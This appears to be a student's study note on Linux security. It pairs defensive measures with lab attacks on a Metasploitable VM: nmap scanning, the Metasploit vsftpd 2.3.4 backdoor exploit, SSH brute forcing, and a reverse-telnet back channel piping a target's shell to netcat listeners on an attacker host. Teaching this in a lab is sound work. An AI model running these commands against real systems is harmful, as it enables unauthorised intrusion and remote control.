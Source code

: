 
> [!NOTE] How to gain remote access to linux device?
> Linux has two levels of access: **root** and **user** 
> **Root** remains a single point of attack
> ![[Pasted image 20240608171714.png]]

> [!NOTE] TLDR
> - Linux is a complex system that requires adequate security measures.
> - Once the IP address of a target system is known, an attacker can begin port scanning, looking for security holes in the target system for gaining access.
> - Many remote exploitation techniques may allow attackers to subvert the Linux system and to obtain a shell access.
# Main defense mechanism for Linux systems
defense mechanism for Linux systems:
- **Software Updates**: Patching vulnerabilities is crucial to ensure the latest security fixes. 
- **Firewall**: Act as a gatekeeper. Configure firewalls to block unauthorized incoming and outgoing traffic, restricting access only to essential services and trusted sources. 
- **User Accounts**: The principle of least privilege. Create user accounts with minimal permissions and avoid using the root account for everyday tasks. 
- **Strong Passwords & Authentication**: Enforce strong passwords with complexity requirements and consider two-factor authentication (2FA) for added security. 
- **Secure Shell (SSH)**: Encrypt remote access. Use SSH instead of Telnet to ensure all communication, including passwords, is encrypted during remote administration sessions. 
- **Permissions & Access Control**: Control access to files and directories. Set appropriate permissions (read, write, execute) for users and groups to restrict unauthorized access.




# Linux attacks
**Attackers follow a logical progression:**
1. **First, gain Remote Access via the network**
	1. Typically exploiting a vulnerability in a listening service
2. **Then, have a command shell or login to the system**
	1. Local attacks are also called **Privilege Escalation Attacks**

**First step is to scan the victim remotely**
1. Scan the VM remotely: 
	1. ***nmap -A** \<IP>*
2. You can use the results to search online for related vulnerabilities
	1. E.g., OpenSSH 4.7p1, vsftpd 2.3.4
3. Let’s exploit the vulnerability in vsftpd 2.3.4 to gain remote access

## Exploiting Backdoor in vsftpd 2.3.4
1. Launch Metasploit Framework Console: **# msfconsole**
2. search *Variable*
```shell
>search vsftpd 
>use exploit/unix/ftp/vsftpd_234_backdoor 
>show options 
>set ROSTS 
>run
```
3. You will see that you got shell access to the Metasploitable VM.
4. Verify it by running **ifconfig**
![[Pasted image 20240608172521.png]]
### SSH Brute Force Attack
- The attacker brute forces SSH to login remotely.
- Use Metasploit to gain shell access.
![[Pasted image 20240608172441.png]]

# Reverse telnet and [[Back Channel]]
- **Back channel** as a mechanism where the communication channel originates from the target system rather than from the attacking system.
- In **reverse telnet**, telnet is used to create a back channel from the target system to the attackers’ system.

## How does an attacker use Back Channel?
1. The attacker runs the following commands in two separate windows on the attacker’s system **(kali, IP = 10.0.2.4)**
```root
# nc -l -n -v -p 80 
# nc -l -n -v -p 25
```
1. The attacker exploits a vulnerability to run the following command in the target system **(metasploitable, IP = 10.0.2.5)**
```root
# telnet 10.0.2.4 80 | sh | telnet 10.0.2.4 25
```

**Response:**
```root
Trying 10.0.2.4.
Connected to 10.0.2.4.
Escape character is '^]'
sh: line 1: Trying: command not found
sh: line 2: Connected: command not found
sh: line 3 Escape: command not found
```

3. Now the attacker’s shell windows are connected to the target system
4. The attacker runs a command in the first window on the attacker’s system. The target system reads the commands, executes it locally, and it returns the result to the second window of the attacker
![[Pasted image 20240608173037.png]]
![[Pasted image 20240608173045.png]]


